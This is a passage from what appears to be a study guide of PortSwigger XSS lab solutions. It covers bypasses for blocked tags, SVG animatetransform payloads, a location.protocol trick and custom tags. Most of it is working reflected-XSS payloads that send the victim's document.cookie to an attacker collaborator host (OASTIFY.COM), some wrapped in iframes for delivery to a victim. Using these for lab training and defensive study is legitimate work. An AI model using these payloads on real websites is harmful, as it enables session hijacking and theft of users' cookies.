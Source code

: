 ```JavaScript
<iframe onload="if(!window.flag){this.contentWindow.location='https://TARGET.net?search=<body onpopstate=document.location=`http://OASTIFY.COM/?`+document.cookie>#';flag=1}" src="https://TARGET.net?search=<body onpopstate=document.location=`http://OASTIFY.COM/?`+document.cookie>"></iframe>
```  

### Bypass Blocked Tags   
  
>Application controls give message, ***"Tag is not allowed"*** when inserting basic XSS payloads, but discover SVG mark-up allowed using above [methodology](#identify-allowed-tags). This payload steal my own session cookie as POC.  

```html
https://TARGET.net/?search=%22%3E%3Csvg%3E%3Canimatetransform%20onbegin%3Ddocument.location%3D%27https%3A%2F%2FOASTIFY.COM%2F%3Fcookies%3D%27%2Bdocument.cookie%3B%3E
```  

>Place the above payload on exploit server and insert URL with search value into an ```iframe``` before delivering to victim in below code block.  

```html
<iframe src="https://TARGET.net/?search=%22%3E%3Csvg%3E%3Canimatetransform%20onbegin%3Ddocument.location%3D%27https%3A%2F%2FOASTIFY.COM%2F%3Fcookies%3D%27%2Bdocument.cookie%3B%3E">
</iframe>
```  
  
![svg animatetransform XSS](images/svg-animatetransform-xss.png)  
  
[PortSwigger Lab: Reflected XSS with some SVG markup allowed](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-some-svg-markup-allowed)  
  
### XSS Assign protocol  

>Lab to test XSS into HTML context with nothing encoded in search function. Using this lab to test the **Assignable protocol with location** ```javascript``` exploit ***identified*** by [PortSwigger XSS research](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#assignable-protocol-with-location). In the payload is the ```%0a``` representing the ASCII newline character.  

```html
<script>location.protocol='javascript';</script>#%0adocument.location='http://OASTIFY.COM/?p='+document.cookie//&context=html
```  

![XSS protocol location](images/xss-protocol-location.png)  

[PortSwigger Lab: Reflected XSS into HTML context with nothing encoded](https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded)  
  
### Custom Tags not Blocked  
  
>Application respond with message ***"Tag is not allowed"*** when attempting to insert XSS payloads, but if we create a custom tag it is bypassed.  

```html
<xss+id=x>#x';
```  

